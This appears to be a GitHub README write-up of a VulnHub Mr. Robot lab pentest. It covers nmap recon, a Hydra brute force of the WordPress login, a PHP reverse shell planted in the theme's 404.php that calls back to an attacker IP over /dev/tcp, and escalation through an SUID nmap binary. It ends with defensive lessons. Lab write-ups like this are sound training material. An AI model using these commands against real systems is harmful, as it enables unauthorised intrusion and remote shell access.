 # 🛡️ Operation: Mr. Robot Infiltration

**RootProwler Advanced Pentest | VulnHub | Full Chain: Web → Internal → Root**

---
Overview
Welcome to the Operation: Mr. Robot Infiltration! This repository contains the documentation for the penetration testing conducted on the Mr. Robot vulnerable machine. The goal was to exploit and escalate privileges on a WordPress-based web server running on Apache, ultimately gaining root access and capturing flags.

Table of Contents
📋 Project Overview

⚙️ Setup

🛠 Tools Used

🎯 Target Information

🔍 Steps to Complete the Pentest

1. Reconnaissance

2. Exploitation

3. Privilege Escalation

4. Flag Capture

🏁 Conclusion

📚 Lessons Learned

💡 Credits

📋 Project Overview
This repository outlines the process of conducting a black-box pentest on the Mr. Robot vulnerable machine. We perform reconnaissance, exploitation, privilege escalation, and ultimately capture flags from the system.

The steps in this project are broken down methodically to ensure you understand the process and can replicate or learn from this engagement.

⚙️ Setup
Prerequisites
Kali Linux (Attacker Machine)

Mr. Robot VM (Target Machine)

Network Configuration: Both the Kali and Mr. Robot VMs must be on the same network segment (use Bridged or Host-only adapter).

Tools Used
Nmap: For reconnaissance and service enumeration.

Gobuster: Directory/file enumeration tool.

Hydra: Brute force tool for cracking weak credentials.

Netcat: For reverse shell and connection back to the attacker.

PHP Reverse Shell: Used for web shell exploitation.

🎯 Target Information
IP Address: 192.168.254.133

Web Application: WordPress running on Apache HTTPD

Open Ports: 80 (HTTP)

🔍 Steps to Complete the Pentest
1. Reconnaissance
The first step involves gathering as much information as possible about the target.

Nmap Scan:
bash
Copy
Edit
nmap -sS -A -p- 192.168.254.133
Results:

Port 80: Apache HTTPD

WordPress running on the target machine.

2. Exploitation
WordPress Login Brute Force:

Using Hydra to attempt brute force login on the WordPress page.

bash
Copy
Edit
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.254.133 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:S=Dashboard"
Web Shell Upload:
Exploiting the 404.php file of the Twenty Fifteen WordPress Theme to upload a PHP reverse shell.

php
Copy
Edit
<?php
  exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.254.135/4444 0>&1'");
?>
Once the file is uploaded and triggered, a reverse shell will connect back to the attacker.

3. Privilege Escalation
From www-data to robot:
MD5 Hash found in /home/robot/password.raw-md5 was cracked to reveal the password robot1234.

From robot to root:
Searching for SUID binaries led to nmap, which had the SUID bit set.

Privilege escalation through nmap allowed us to spawn a shell as root.

4. Flag Capture
Captured Flags:
Flag1: /home/robot/flag1.txt

Flag2: /root/flag2.txt

Root Flag: /root/root-flag.txt

🏁 Conclusion
This pentesting engagement on Mr. Robot successfully captured all flags and escalated privileges from a web application vulnerability (WordPress) all the way to root access.

📚 Lessons Learned
Strong Authentication: Always ensure strong passwords and implement two-factor authentication (2FA) to prevent brute-force attacks.

File Upload Security: Properly validate and sanitize user inputs to avoid web shell uploads.

Privilege Escalation: Always be on the lookout for SUID binaries or other misconfigurations that can lead to privilege escalation.

💡 Credits
Mr. Robot: VulnHub (for providing the vulnerable machine)

PHP Reverse Shell: PentestMonkey

Tools Used: Nmap, Hydra, Netcat, Gobuster, etc.
